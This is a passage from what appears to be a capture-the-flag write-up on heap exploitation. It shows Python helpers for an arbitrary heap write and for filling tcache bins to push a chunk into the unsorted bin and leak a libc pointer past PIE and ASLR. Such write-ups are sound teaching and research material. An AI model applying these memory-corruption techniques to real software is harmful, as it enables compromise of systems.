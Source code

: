 ```python

def write(address:bytes, value:bytes):
    overwrite_ptr(address)
    edit_entry(b"2", value)
```

But there's still a major issue. We have our two primitives, we have a heap leak, but both pie and aslr are activated... Since there is currently only pointers to the heap on the heap, well we only have an arbitrary read and write on the heap.

![sad](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExb3FrYm53Z3RneWcxcjdoNGlod3N0NDhvemhkOTVxOWVzNHRuZzE3aCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/W0c3xcZ3F1d0EYYb0f/giphy.gif)

But don't worry, we only need to create a chunk with some metadata containing a pointer to the libc. Essentially right now our chunks are going to the Tcachebins :

![tcache](./Images/tcache.png)

Which metadata only contains pointer to the heap, but if we were to get a chunk in the unsorted bin, he'd have a pointer to the main arena : a pointer to the libc. To do so, we just need to fill up the Tcachebins for chunks of a size over 0x90. The Tcachebins can only contain 7 chunks, so we can get a chunk in the unsorted bin like that :

```python
def unsorted_bin():
    for i in range(9):
        add_entry(str(i+3).encode(), b"121", b"Z"*121)
    for i in range(9):
        remove(str(i+3).encode())
```
